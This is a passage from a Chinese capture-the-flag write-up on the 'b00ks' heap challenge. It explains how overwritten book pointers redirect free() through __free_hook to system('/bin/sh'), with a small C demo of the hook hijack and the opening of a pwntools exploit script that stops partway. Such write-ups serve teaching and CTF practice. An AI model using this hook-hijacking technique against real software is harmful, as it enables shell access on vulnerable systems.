 payload2通过修改book1_desc来修改book2_desc指向的地址

 在这段代码中，首先是修改`book1_description`，而此时的book1是之前伪造的book2，也就是说这里的`book1_description_ptr`正好是指向`book2_struct`中的`book2_name_ptr`。通过这个修改，将`book2_name_ptr`改为了binsh字符串的地址，将`book2_description_ptr`改为了`free_hook`指针的地址。然后通过修改`book2_description_ptr`，将`free_hook`中的内容改为了`system()`的地址。之后在删除book2时，会首先调用free()释放`book2_name_ptr`指针指向的地址空间，原本的`free(book2_name_ptr)` 最终变为 `system(binsh_addr)`。

**什么是__free_hook?**举个栗子：

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>

extern void (*__free_hook) (void *__ptr,const void *);

int main()
{
    char *str = malloc(160);
    strcpy(str,"/bin/sh");
    
    printf("__free_hook: 0x%016X\n",__free_hook);
    // 劫持__free_hook
    __free_hook = system;
    free(str);
    return 0;
}
//运行./a.out 就直接运行了system("/bin/sh")
```

**EXP：**

```Python
from pwn import *
context(log_level='DEBUG')
def create(name_len, name, desc_len, desc):
    p.sendline("1")
    p.recvuntil("Enter book name size: ")
    p.sendline(str(name_len))
    p.recvuntil("Enter book name (Max 32 chars): ")
    p.sendline(name)
    p.recvuntil("Enter book description size: ")
    p.sendline(str(desc_len))
    p.recvuntil("Enter book description: ")
    p.sendline(desc)

def delete(index):
    p.sendline("2")
    p.recvuntil("Enter the book id you want to delete: ")
    p.sendline(str(index))

def edit(index, desc):
    p.sendline("3")
    p.recvuntil("Enter the book id you want to edit: ")
    p.sendline(str(index))
    p.recvuntil("Enter new book description: ")
    p.sendline(desc)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p = process("./b00ks")
p.recvuntil("Enter author name: ")
p.sendline("a" * 32)
p.recvuntil("> ")
create(10, "book1_name", 200, "book1_desc")
create(0x21000, "book2_name", 0x21000, "book2_desc")
p.recvuntil("> ")
```